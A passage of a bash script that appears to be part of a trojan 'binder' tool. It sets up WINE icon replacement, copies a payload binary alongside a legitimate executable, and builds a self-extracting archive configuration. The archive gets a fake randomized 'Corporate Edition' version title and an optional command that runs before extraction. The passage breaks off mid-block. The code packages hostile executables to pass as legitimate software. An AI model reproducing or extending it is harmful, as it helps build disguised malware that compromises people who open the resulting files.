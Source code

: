 

#
# CONFIG WINE PATH FOR ICON REPLACEMENT
# linux path uses forward slashs in path names and WINE uses blackslashs
# so we need to convert the variable $IPATH to use the backslashs insted ..
# 
echo "$IPATH" > $IPATH/output/rep.log
sed -i 's|/|\\|g' $IPATH/output/rep.log
BPATH=`cat $IPATH/output/rep.log`
echo ${BlueF}[☆]${white}" Config WINE path for icon replacement : ${GreenF}done!"${Reset};
rm $IPATH/output/rep.log
sleep 2



#
# copy files nedded to output folder ..
# and store is names into local variables for later use ..
#
cp $binary_path $IPATH/output > /dev/null 2>&1
ST_O=`ls | egrep -m 1 '.'` > /dev/null 2>&1
rm $IPATH/output/$ST_O > /dev/null 2>&1
cp $legit_path $IPATH/output > /dev/null 2>&1
ST_D=`ls | egrep -m 1 '.'` > /dev/null 2>&1
cp $binary_path $IPATH/output > /dev/null 2>&1
echo ${BlueF}[☆]${white}" Copy all files to output folder : ${GreenF}done!"${Reset};
sleep 2
echo ${BlueF}[☆]${white}" Extract filenames from full paths : ${GreenF}done!"${Reset};
sleep 2



#
# build SFX configuration file (bin/xsf.conf)
#
# random version numbers
RAN_D=$(cat /dev/urandom | tr -dc '1-4' | fold -w 1 | head -n 1)
RUN_T=$(cat /dev/urandom | tr -dc '0-9' | fold -w 3 | head -n 1)
FIN_F=$(cat /dev/urandom | tr -dc '1-7' | fold -w 1 | head -n 1)
echo "; The sfx archive title" > $IPATH/bin/xsf.conf
echo "Title=$N4m3 v$RAN_D.$RUN_T.$FIN_F Corporate Edition" >> $IPATH/bin/xsf.conf
  #
  # use Presetup program/command to exec before extraction ..
  #
  if [ "$PRES" = "ON" ]; then
    echo "; Program/command to execute before extraction" >> $IPATH/bin/xsf.conf
    echo "Presetup=$MyPr" >> $IPATH/bin/xsf.conf
  fi
  echo "; The path to the setup executables" >> $IPATH/bin/xsf.conf
  if [ "$SIN_GL" = "ON" ]; then
    echo "Setup=$ST_D" >> $IPATH/bin/xsf.conf